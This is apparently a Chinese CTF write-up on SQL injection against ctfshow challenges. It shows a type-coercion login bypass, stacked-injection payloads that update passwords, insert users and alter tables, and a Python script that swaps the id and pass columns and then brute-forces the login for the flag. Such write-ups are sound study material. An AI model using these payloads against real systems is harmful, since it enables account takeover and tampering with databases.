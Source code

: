 以字母开头的数据在和数字比较时，会被强制转换为0
如果有某个数据不是以字母开头，是匹配不成功的，这种情况可以用||运算符
`username=1||1&password=0`

### 堆叠注入

#### update改密码

``0x61646d696e;update`ctfshow_user`set`pass`=123456``

#### emmm

```php
if($row[0]==$password){
    $ret['msg']="登陆成功 flag is $flag";
}

username：520;select(1)
password：1
```

这样操作`$row[0]`就是1，就可以绕过了

#### insert

`insert  ctfshow_user(`username`,`pass`) value(0,0);`直接插入一条数据

#### alter

```python
import requests

url = "http://e36a9275-a8a8-4def-bce5-0988a2b9b81d.challenge.ctf.show:8080/api/"
payload = '0x61646d696e;alter table ctfshow_user change column `pass` `dionysus` varchar(255);alter table ctfshow_user change column `id` `pass` varchar(255);alter table ctfshow_user change column `dionysus` `id` varchar(255);'
data1 = {
    'username': payload,
    'password': '1'
}
res = requests.post(url=url, data=data1)

for i in range(99):
    data2 = {
        'username': "0x61646d696e",
        'password': f'{i}'
    }
    res2 = requests.post(url=url, data=data2)
    if "flag" in res2.json()['msg']:
        print(res2.json()['msg'])
        break
```

把id和password互换再爆破

